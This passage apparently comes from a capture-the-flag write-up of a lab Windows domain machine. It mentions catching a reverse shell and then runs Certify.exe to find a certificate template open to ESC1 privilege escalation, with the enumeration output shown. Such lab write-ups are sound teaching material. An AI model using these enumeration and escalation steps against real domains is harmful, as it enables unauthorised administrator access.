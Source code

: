 Then we just wait. After a while, we would start to get calls on our HTTP servers and get a reverse shell as the user.&#x20;

<figure><img src="../../../.gitbook/assets/image (1449).png" alt=""><figcaption></figcaption></figure>

We can then grab the user flag.

## Privilege Escalation

### ESC1 Exploit

Earlier, we saw a share about `CertEnroll`, which is a possible exploit path to get an Administrator shell. First, let's use `Certify.exe` to locate any vulnerable templates on the machine.&#x20;

```
C:\Users\diegocruz\Desktop>.\Certify.exe find
<TRUNCATED>
CA Name                               : earth.windcorp.htb\windcorp-CA
    Template Name                         : Web
    Schema Version                        : 2
    Validity Period                       : 10 years
    Renewal Period                        : 6 weeks
    msPKI-Certificate-Name-Flag          : ENROLLEE_SUPPLIES_SUBJECT
    mspki-enrollment-flag                 : PUBLISH_TO_DS
    Authorized Signatures Required        : 0
    pkiextendedkeyusage                   : Server Authentication
    mspki-certificate-application-policy  : Server Authentication
    Permissions
      Enrollment Permissions
        Enrollment Rights           : WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
        All Extended Rights         : WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
      Object Control Permissions
        Owner                       : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
        Full Control Principals     : WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
        WriteOwner Principals       : WINDCORP\Administrator        S-1-5-21-3510634497-171945951-3071966075-500
                                      WINDCORP\Domain Admins        S-1-5-21-3510634497-171945951-3071966075-512
                                      WINDCORP\Enterprise Admins    S-1-5-21-3510634497-171945951-3071966075-519
                                      WINDCORP\webdevelopers        S-1-5-21-3510634497-171945951-3071966075-3290
```
